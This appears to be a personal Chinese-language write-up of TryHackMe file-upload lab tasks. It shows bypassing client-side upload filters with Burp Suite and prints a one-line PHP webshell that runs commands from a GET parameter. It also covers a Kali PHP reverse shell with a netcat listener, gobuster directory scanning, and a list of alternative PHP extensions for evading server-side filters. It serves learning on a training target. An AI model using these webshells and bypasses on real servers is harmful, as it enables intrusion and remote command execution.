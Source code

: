 # 0516文件上传绕过（client-side）

https://tryhackme.com/room/uploadvulns的Task 7

已知http://java.uploadvulns.thm（PS：需要在/etc/hosts中设置IP和域名对应）只存在client-side的文件上传过滤，目标是得到该服务器/var/www/下的flag



打开网页如下：

![image-20220516095801615](2022-05-16-file upload wp.assets/image-20220516095801615.png)



因为是client-side的过滤故查看源代码，发现非png类型文件不可上传

![image-20220516100025617](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516100025617.png)

整个流程是用户请求网页，然后服务器返回网页信息（html等等信息），其中包含了上面用于过滤文件类型的JavaScript代码。然后点击“select file”打开文件后，过滤代码就在用户端运行。点击上传，文件就传输到服务器。

![image-20220516102207195](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516102207195.png)

所以我们可以用两种方法来打破client-side过滤的机制：

1. 在服务器返回网页信息的时候截胡，把过滤代码删掉
2. 在过滤代码执行的时候处理，上传一个png后缀文件，但在执行结果返回前把文件类型改回来

可以用webshell或者reverse shell：

1. webshell我用的是以下代码

   ```
   <?php
   	echo system($_GET["cmd"]);
   ?>
   ```

2. reverse shell用的是kali的/usr/share/webshells/php/php-reverse-shell.php（记得改文件里的$IP为攻击机的IP）

以上的2X2种方法可以随便组合

## 方法一：删过滤代码+webshell

打开网页代理，打开burpsuite，选择response to this request来显示服务器返回的包（默认情况下不显示）。

![image-20220516105740620](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516105740620.png)

点击forward，收到返回的包，删除过滤的js代码

![image-20220516110033263](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516110033263.png)

点击forward后，正常上传文件即可

问题是不知道webshell.php在哪，所以用gobuster扫一下文件目录：

```
gobuster dir -u http://java.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

找到一个可疑的文件夹/images，访问这个文件夹：http://java.uploadvulns.thm/images果然在里面，所以只要访问

```
http://java.uploadvulns.thm/images/webshell.php?cmd=cat /var/www/flag.txt
```



## 方法二：修改文件类型+reverse shell

把php-reverse-shell.php改成shell.png(改成shell只是懒得打，但是后缀一定要改)

![image-20220516110903950](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516110903950.png)

点击“upload”，修改文件类型，点击forward成功上传![image-20220516111059415](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516111059415.png)

也是一样的用gobuster找到文件上传到何处

攻击机这边打开netcat的listener，然后访问

```
nc -lvnp 1234(端口号)
```

获得reverse shell，得到flag

![image-20220516111412502](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516111412502.png)



# 0516文件上传绕过（server-side）-文件拓展名过滤

https://tryhackme.com/room/uploadvulns的Task 8

后缀改成php5就可以上传了，以下是一些很少使用但服务器或许可以识别的Php后缀名，一个个试出来的：.php3, .php4, .php5, .php7, .phps, .php-s,  .pht .phar。

![image-20220516152831391](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516152831391.png)

# 0516文件上传绕过（server-side）-magic numbers过滤

https://tryhackme.com/room/uploadvulns的Task 9

